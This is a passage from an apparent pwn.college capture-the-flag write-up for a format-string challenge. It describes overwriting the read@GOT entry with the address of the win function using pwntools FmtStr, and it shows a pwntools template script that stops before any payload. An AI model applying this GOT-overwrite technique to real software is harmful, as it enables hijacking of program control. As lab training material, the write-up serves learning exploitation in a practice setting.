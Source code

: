 It's not necessary but i downloaded the **GLIBC** file. From this point i always include the libc files same as pwn.college environment.

As a target choosen **read** . If you look again the **win** function inside, **puts, open, sendfile and exit** functions calling. So i don't wanna mess up with them. **read** is simple. After calling **win** the program exiting directly already. 

```pgsql
call read → read@plt → jmp [read@got]
                      ↳ we overwrite read@got = &win
Next call to read() → indirect jmp lands at win (preferably start with endbr64)
→ win prints flag & exits
```

Keep things simple as before, for the write operation choosed **FmtStr** from pwntools <3.

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template '--libc=libc.so.6' ./babyfmt_level7.0
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or './babyfmt_level7.0')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR

# Use the specified remote libc version unless explicitly told to use the
# local system version with the `LOCAL_LIBC` argument.
# ./exploit.py LOCAL LOCAL_LIBC
if args.LOCAL_LIBC:
    libc = exe.libc
else:
    library_path = libcdb.download_libraries('libc.so.6')
    if library_path:
        exe = context.binary = ELF.patch_custom_libraries(exe.path, library_path)
        libc = exe.libc
    else:
        libc = ELF('libc.so.6')

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
#tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Partial RELRO
# Stack:      Canary found
# NX:         NX enabled
```